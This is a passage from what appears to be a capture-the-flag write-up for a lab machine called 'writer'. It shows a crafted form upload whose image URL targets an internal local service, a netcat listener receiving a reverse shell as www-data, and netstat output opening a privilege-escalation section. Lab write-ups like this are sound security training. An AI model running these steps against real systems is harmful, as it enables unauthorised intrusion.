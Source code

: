 ```console
Content-Disposition: form-data; name="image"; filename=""
Content-Type: image/png


-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image_url"

http://127.0.0.1:8080/#.jpg
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="content"

im qwe yes
-----------------------------118533453010020168263738670579--
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 36640
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:~/writer2_project$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@writer:~/writer2_project$ uname -a
uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

### www-data -> kyle

Django service is running:

```console
www-data@writer:/var/www/writer2_project$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      40058/python3
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::445                  :::*                    LISTEN      -
tcp6       0      0 :::139                  :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.11.255:137        0.0.0.0:*                           -
udp        0      0 10.10.11.101:137        0.0.0.0:*                           -
udp        0      0 0.0.0.0:137             0.0.0.0:*                           -
udp        0      0 10.10.11.255:138        0.0.0.0:*                           -
udp        0      0 10.10.11.101:138        0.0.0.0:*                           -
udp        0      0 0.0.0.0:138             0.0.0.0:*                           -
```
